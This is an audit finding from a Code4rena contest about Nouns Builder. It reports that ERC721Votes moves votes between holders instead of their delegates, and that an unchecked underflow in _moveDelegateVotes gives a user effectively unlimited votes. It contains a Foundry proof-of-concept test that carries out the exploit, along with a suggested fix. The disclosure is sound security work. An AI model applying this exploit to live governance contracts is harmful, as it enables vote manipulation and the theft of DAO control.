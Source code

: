 ## Tags

- bug
- 3 (High Risk)
- sponsor confirmed
- old-submission-method

# [Use can get unlimited votes](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/469) 

# Lines of code

https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L268


# Vulnerability details

## Impact

`aftertokenTransfer` in ERC721Votes transfers votes between user addresses instead of the delegated addresses, so a user can cause overflow in `_moveDelegates` and get unlimited votes

## Proof of Concept

https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L268

```
    function _afterTokenTransfer(
        address _from,
        address _to,
        uint256 _tokenId
    ) internal override {
        // Transfer 1 vote from the sender to the recipient
        _moveDelegateVotes(_from, _to, 1);

        super._afterTokenTransfer(_from, _to, _tokenId);
    }
```
https://github.com/code-423n4/2022-09-nouns-builder/blob/7e9fddbbacdd7d7812e912a369cfd862ee67dc03/src/lib/token/ERC721Votes.sol#L216

```
    _moveDelegateVotes(prevDelegate, _to, balanceOf(_from));
    ...
    unchecked {
                ...
                // Update their voting weight
                _writeCheckpoint(_from, nCheckpoints, prevTotalVotes, prevTotalVotes - _amount);
            }
```
During delegation `balanceOf(from)` amount of votes transferred are to the `_to` address

```
    function test_UserCanGetUnlimitedVotes() public {

        vm.prank(founder);
        auction.unpause();

        vm.prank(bidder1);
        auction.createBid{ value: 1 ether }(2);

        vm.warp(10 minutes + 1 seconds);

        auction.settleCurrentAndCreateNewAuction();
        
        assertEq(token.ownerOf(2), bidder1);

        console.log(token.getVotes(bidder1)); // 1
        console.log(token.delegates(bidder1)); // 0 bidder1

        vm.prank(bidder1);
        token.delegate(bidder2);

        console.log(token.getVotes(bidder1)); // 1
        console.log(token.getVotes(bidder2)); // 1

        vm.prank(bidder1);
        auction.createBid{value: 1 ether}(3);

        vm.warp(22 minutes);

        auction.settleCurrentAndCreateNewAuction();

        assertEq(token.ownerOf(3), bidder1);

        console.log(token.balanceOf(bidder1)); // 2
        console.log(token.getVotes(bidder1)); // 2
        console.log(token.getVotes(bidder2)); // 1

        vm.prank(bidder1);        
        token.delegate(bidder1);

        console.log(token.getVotes(bidder1)); // 4
        console.log(token.getVotes(bidder2)); // 6277101735386680763835789423207666416102355444464034512895     
  }
```

When user1 delegates to another address `balanceOf(user1)` amount of tokens are subtraced from user2's votes, this will cause underflow and not revert since the statements are unchecked

## Tools Used

foundry

## Recommended Mitigation Steps

Change delegate transfer in `afterTokenTransfer` to 

```
        _moveDelegateVotes(delegates(_from), delegates(_to), 1);
```

